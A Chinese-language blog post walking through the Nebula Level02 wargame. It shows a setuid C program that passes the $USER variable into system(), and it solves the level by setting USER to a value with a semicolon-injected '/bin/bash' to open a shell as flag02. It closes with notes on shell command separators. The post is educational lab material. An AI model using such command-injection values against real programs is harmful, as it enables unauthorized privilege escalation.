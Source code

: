 ```yaml
---
layout: post
title: "Exploit Exercises - Nebula Level02"
date: 2014-01-09 15:13:38 +0800
comments: true
categories: 
- Security
- Exercises
- Nebula
---
```


基本过程与level01一样，先看/home/flag02/flag02的源代码：

``` c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char **argv, char **envp)
{
  char *buffer;

  gid_t gid;
  uid_t uid;

  gid = getegid();
  uid = geteuid();

  setresgid(gid, gid, gid);
  setresuid(uid, uid, uid);

  buffer = NULL;

  asprintf(&buffer, "/bin/echo %s is cool", getenv("USER"));
  printf("about to call system(\"%s\")\n", buffer);
  
  system(buffer);
}
```

<!-- more -->

先通过$USER构建了一个字符串，然后执行该字符串。比如正常情况下

	buffer="/bin/echo level02 is cool"

在这里echo程序用了绝对路径，不过那个$USER明显是让我们加以利用的……在本例中echo程序是动不了的了，那怎么能执行其他的命令呢？也很简单，Linux本来就可以在一行中执行多条语句，这里选择用“;”来分割。如下修改$USER

	USER="haha; /bin/bash"

其实这里完全可以使用/bin/getflag的，就直接过掉了，不过每次都这么玩儿没意思，试试开个console吧。修改之后执行：

``` bash
~ $ /home/flag02/flag02
about to call system("/bin/echo haha; /bin/bash is cool")
haha
/bin/bash: is: No such file or directory
```

擦，bash执行的时候把后边的is cool当成参数了，这也简单，再次祭出“;”把bash跟他们分开

``` bash
USER="haha; /bin/bash;"
level02@nebula:~$ /home/flag02/flag02
about to call system("/bin/echo haha; /bin/bash; is cool")
haha
flag02@nebula:~$
```

这样就开了个用户为flag02的bash出来。

### 补充

其实Linux中分隔命令不止“;”这一种方法，总结下这些分隔符的不同如下：

- “;”：顺序执行所有命令，后一个在前一个之行结束之后才会执行
- “&&”：顺序执行，前一个命令成功执行之后才会执行下一个
- “||”：顺序执行，知道成功执行了一个命令为止（如果第一个成功了，后边的就不会执行）

还有种方法也可以起到在一行中分隔多个命令的方法，是使用“&”符号，“&”的本意是在一个新的进程中执行命令，对于分割命令这个目的而言算是一种曲线救国的方法了吧……注意因为“&”本身并不是为分隔命令而用的，所以跟其他的有些许不一样，比如以下两条命令

``` bash
$ la & ll
$ la & ll &
```

第一条会在新的进程中执行la，而在本进程中执行ll，第二条则会新起两个进程分别执行la和ll。